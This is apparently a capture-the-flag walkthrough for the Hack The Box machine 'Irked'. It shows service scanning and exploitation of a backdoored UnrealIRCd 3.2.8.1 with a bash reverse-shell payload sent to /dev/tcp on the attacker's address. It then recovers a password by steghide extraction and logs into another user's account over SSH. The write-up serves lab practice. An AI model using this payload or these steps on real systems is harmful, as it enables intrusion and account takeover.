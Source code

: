 User:
1. Scan the box with `nmap -sC -sV -oN irked.nmap 10.10.10.117` to check the services on the first 1000 ports
2. Port 80 is open, we see there is a mention of IRC by going on a browser
3. Rescan the box fully with `nmap -p- -oN irked_full.nmap 10.10.10.117` to check all ports open
4. There is an IRC service listening on port 8067, look up the RFC for IRC
5. Google the IRC version (Unreal3.2.8.1), we see there is a backdoor command execution
6. We can do `searchsploit unreal` to check and see if there's an exploit for it in the database, there actually is, we can either use it with `msfconsole`, or manually by `echo "AB;bash -c 'bash -i >& /dev/tcp/10.10.14.21/9001 0>&1'"` to send a shell (nc needs to listen on port 9001), then `python -c 'import tty;tty.spawn("/bin/bash")'` to spawn a shell, then stopping the nc listening process, `stty -raw -echo` to get rid of commands echoing, `fg` to go back to nc, and finally `export TERM=xterm` to be able to do `clear`. And voilà! 
7. We are now user `icrd`, and need to read a file owned by `djmardov` with permissions 600, so we cannot read it as `icrd`. In `Documents/.backup` we see `Super elite steg backup pw` with a cheating code.
8. Downloading the image that was shown by the http server, we run `steghide extract -sf irked.jpg -p PASSWORD` with the cheating code found in `.backup` as PASSWORD, and we get a nice pass.txt, which we guess is the password to ssh into djmardov's account, and it is, so that's it for user!
